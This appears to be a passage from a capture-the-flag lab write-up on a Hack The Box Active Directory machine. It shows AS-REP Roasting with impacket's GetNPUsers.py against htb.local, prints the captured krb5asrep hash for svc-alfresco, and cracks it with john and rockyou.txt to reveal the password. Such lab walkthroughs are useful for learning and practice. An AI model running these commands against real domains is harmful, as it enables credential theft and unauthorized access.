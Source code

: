 This will allow us to perform **AS-REP Roasting**:

- sending a dummy request to the Key Distribution Center (**KDC**) 
- getting a **TGT** (Ticket Granting Ticket) which contains material encrypted with the user's password hash
- trying to crack the password with an offline bruteforce attack

> Unlike **Kerberoasting** these users do not necessary have to be service accounts.

___

## Foothold

### AS-REP Roasting with `GetNPUsers.py` (impacket)

`GetNPUsers.py` from [**impacket**](https://github.com/SecureAuthCorp/impacket) can be used to request a **TGT** (Ticket Granting Ticket), getting both the vulnerable usernames and their corresponding `krbasrep5` hashes directly:

```bash
$ GetNPUsers.py htb.local/ -dc-ip $TARGET -request # we could add '-format hashcat'
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

Name          MemberOf                                                PasswordLastSet             LastLogon                   UAC      
------------  ------------------------------------------------------  --------------------------  --------------------------  --------
svc-alfresco  CN=Service Accounts,OU=Security Groups,DC=htb,DC=local  2021-08-17 22:07:11.322568  2021-08-17 21:52:25.008334  0x410200 



$krb5asrep$23$svc-alfresco@HTB.LOCAL:1ab93db0067516ce979a1a21bfad456a$89bf43129d73d2b85bb939d9dc5f11533e80b53b6c86f5fe0d86ddf531fc380b77abbdbc4ebc77bc2f1ad94dc49a308c5f8aa74d885386ffbefdb25d4f201798c0acaf383ce79ed4afaf921994f37d06a2be1515cd28d78d13f8bb3219776071f373107c1605646cd11bbe65f87476c41ae90e4fd098188f680382626603c234dfd8f6432b9d5f31f86aba0ac025ca6ec77cf9434cbfb33a92d5e99295e457351e3d0947a7ea59f53f7d31be8957bbb34930aac943c55a09020970677c62f9283c57045e5ca1cc7e5730651cea7e46a257e44771abfde9fc179f635b5d5c65c08612e420c703
```

### Crack the clear text password of the service account with `john`

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash.txt
Using default input encoding: UTF-8
Loaded 1 password hash (krb5asrep, Kerberos 5 AS-REP etype 17/18/23 [MD4 HMAC-MD5 RC4 / PBKDF2 HMAC-SHA1 AES 256/256 AVX2 8x])
Will run 12 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
s3rvice          ($krb5asrep$23$svc-alfresco@HTB.LOCAL)
1g 0:00:00:01 DONE (2021-08-17 22:29) 0.6622g/s 2705Kp/s 2705Kc/s 2705KC/s s64891817..s3r2s1
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```
